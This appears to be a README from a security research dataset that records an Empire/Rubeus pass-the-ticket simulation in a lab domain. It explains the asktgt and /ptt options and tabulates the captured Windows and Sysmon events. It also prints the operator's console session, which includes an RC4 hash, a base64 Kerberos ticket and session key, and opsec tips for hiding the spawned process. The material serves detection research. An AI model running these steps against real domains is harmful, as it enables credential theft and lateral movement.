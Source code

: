 
# Empire Rubeus PTT

The asktgt action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (/rc4, /aes128, /aes256, or /des). A /password flag can also be used instead of a hash - in this case /enctype:X will default to RC4 for the exchange, with des|aes128|aes256 as options. If no /domain is specified, the computer's current domain is extracted, and if no /dc is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The /luid:0xA.. flag will apply the ticket to the specified logon session ID (elevation needed) instead of the current logon session.

Note that no elevated privileges are needed on the host to request TGTs or apply them to the current logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the /ptt option. A workaround is to use the /createnetonly:C:\X.exe parameter (which hides the process by default unless the /show flag is specified), or request the ticket and apply it to another logon session with ptt /luid:0xA..

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_rubeus_asktgt_ptt_createnetonly.tar.gz](./empire_rubeus_asktgt_ptt_createnetonly.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19151006

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             537 |
| System                                   | Service State Event                                    |               9 |
| Security                                 | Filtering Platform Connection                          |             378 |
| Security                                 | Token Right Adjusted Events                            |             273 |
| Security                                 | Other Policy Change Events                             |             234 |
| Security                                 | User Account Management                                |             216 |
| Security                                 | Group Membership                                       |              22 |
| Security                                 | Logon                                                  |              22 |
| Security                                 | Special Logon                                          |              19 |
| Security                                 | Process Creation                                       |              18 |
| Security                                 | Sensitive Privilege Use                                |              15 |
| Security                                 | Logoff                                                 |              13 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Authorization Policy Change                            |               8 |
| Security                                 | Process Termination                                    |               8 |
| Security                                 | File Share                                             |               4 |
| Security                                 | Kerberos Authentication Service                        |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Security System Extension                              |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             525 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             503 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             235 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |             186 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              44 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              26 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |              12 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              11 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |              10 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             448 |

## Empire Activity

```
(Empire: G6BYHU4F) > 
c4:b415baa073a14f81f8c89a2a384f4a68 /createnetonly:C:\Windows\System32\cmd.exe
[*] Tasked G6BYHU4F to run TASK_SHELL
[*] Agent G6BYHU4F tasked with task ID 5.5.exe asktgt /user:Mmidge /d 
(Empire: G6BYHU4F) > ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 


[*] Action: Create Process (/netonly)

[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 8148
[+] LUID            : 0x53b3d71

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b415baa073a14f81f8c89a2a384f4a68
[*] Target LUID : 87768433
[*] Using domain controller: HFDC01.shire.com (172.18.39.5)
[*] Building AS-REQ (w/ preauth) for: 'shire.com\Mmidge'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5DCCBOCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+KADAgEFoQsbCVNISVJFLkNPTaIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJc2hpcmUuY29to4IDwjCCA76gAwIBEqEDAgECooIDsASCA6yEK7banoUxPpUq
      EoMNXT5YSlapCf/5ejnJ9j73z2CC1V54tAWP6wWOUkw1o5EWzeYqywcEhXsQVW/zC0fUk9f05GnMTINY
      fK1yBdXTeUK2EL53Fq7CJkhKQdFxuNe80oROsp55hO9l4YwtHyNT6hxMuvcOO24dgB/1esaQJd0IqwRM
      wICi6t/RS9Ac7PKOzXIyojGvTFI/zneR55Z0g7x+CJWN6FUO5zWG8QrCt2wAcWvvv0TusvK2Zkd3JHJ1
      pTpSf6WlGK8EH5aExqTUAznFynXebqBPdmvgSkkJf6U/Z/Dy7U6KIojujr9/vyhdLUzAtVfyc3tUGZQS
      n63UXkEVbadKNZ5m/SFr3cwNEeG9hyvyisfJMhm49fVDdEVbHrXrZfNZN5a1cqbbSkJezII0AgV9rP9J
      PUgE8FMbfBL1gwyPZDu1PgYO0UuxJMQg4Kb1JIBjOsCx2Q9yuKXPM9wKccF4ys0qYxw5kzV/ujZIgvAS
      XJwzlFSegjprZxljUzI5k9LDnFz7RXATScg0un0KUCHuSFsnvhHAbxe12xbEYWDG3vVu3k7uN2kkoUcb
      xbGq2kcu/ayDJc50uSIXxwR87n1Cqt6wtydk79460C8EKwONd8VT8cbmuwlQQvQ4uz1eeS0D4TOshOlx
      wm/dG4CZ/asRDkKu2iZWi5tBrMS2lSPxP5QLvbiYdBhIcbZrrjtFjJ9O2cxhYolj+sE01cbQx3HKR9mm
      rx8k5buBdLyWIWy9RzkRPytqiWYdXyNmfdkVFUNI/YoP39mJX+Pu07eS76F72VEzie+c24o9YRe/1Ma6
      FOZYNXypbgswOz6vVTKX9ItSp6nUHhDwJ5YH+QJsu3HcNqcUBCi5fwDCHkaXXx+YwJLNohuckQaDa2L/
      NlZM7ZL+Q5GSZ27NCYlPsvmTNmGN/gVYKMJqJor2BF7KdS/Cg6w76tm+4nOCe8pCEG3pfOofLAeNGFNk
      QGhGwyqb9G3Lx9MhLyrBhkJtmol3FKd8dm/7r/g9bKndVGejwa0DdsxesNCzOhZCpL2rChz5+ty2vvKi
      FQi+iuAqKR9ANqaZ2VJx8qGsmOi+Qr7rEo0dm9rVIrOwa96CCFjWIUzDbN0goMuaRaMcv8zp4NRmfSUQ
      Hsoiymm8U7yjh3JuURc7AEbQFrACIiDiBvLP8pZca483tchXlkXy+haf0vpc+t+W3IeXwI3PQOjGwTnC
      wbjaT5LGn4uc5rIQuN4QQt/+1T7xJhYvA7NMnyqho4HLMIHIoAMCAQCigcAEgb19gbowgbeggbQwgbEw
      ga6gGzAZoAMCARehEgQQfcfUVG4dvCBEsY+L2tRNMaELGwlTSElSRS5DT02iEzARoAMCAQGhCjAIGwZN
      bWlkZ2WjBwMFAEDhAAClERgPMjAxOTAzMTkxOTEzMjRaphEYDzIwMTkwMzIwMDUxMzI0WqcRGA8yMDE5
      MDMyNjE5MTMyNFqoCxsJU0hJUkUuQ09NqR4wHKADAgECoRUwExsGa3JidGd0GwlzaGlyZS5jb20=

[*] Action: Import Ticket
[*] Target LUID: 0x53b3d71
[+] Ticket successfully imported!

[*] Action: Describe Ticket

  UserName              :  Mmidge
  UserRealm             :  SHIRE.COM
  ServiceName           :  krbtgt/shire.com
  ServiceRealm          :  SHIRE.COM
  StartTime             :  3/19/2019 2:13:24 PM
  EndTime               :  3/20/2019 12:13:24 AM
  RenewTill             :  3/26/2019 2:13:24 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  fcfUVG4dvCBEsY+L2tRNMQ==


..Command execution completed.

(Empire: G6BYHU4F) >
```